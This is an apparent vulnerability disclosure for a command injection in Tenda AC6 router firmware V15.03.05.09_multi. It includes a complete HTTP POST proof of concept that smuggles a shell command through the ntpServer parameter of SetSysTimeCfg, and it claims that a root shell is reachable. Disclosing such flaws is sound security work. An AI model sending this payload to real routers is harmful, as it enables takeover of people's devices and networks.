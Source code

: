 # Tenda AC6 V15.03.05.09_multi Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/profile/contact.html
- Firmware download address ： https://www.tenda.com.cn/download/default.html

## 1. Affected version

![image-20220215174142153](img/image-20220215174142153.png)

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details

#### 2.1Command injection vulnerability

![image-20220228162806422](img/image-20220228162806422.png)

The program first passes the contents obtained from the ntpserver parameter to SRC, then sets the SRC value and passes the return value to V1. Finally, the program takes V1 as a parameter through the comitcfm function, which finally causes a command injection vulnerability.

## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.05.09_multi
2. Attack with the following  overflow POC attacks

```
POST /goform/SetSysTimeCfg HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 69
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/system_time.html?random=0.9657222523817097&
Cookie: password=e10adc3949ba59abbe56e057f20f883effo1qw

timePeriod=86400&ntpServer=time.windows.com|ls > /tmp/456&timeZone=20
```

The reproduction results are as follows:

![image-20220228162641056](img/image-20220228162641056.png)

![image-20220228162703168](img/image-20220228162703168.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220215180128600](img/image-20220215180128600.png)

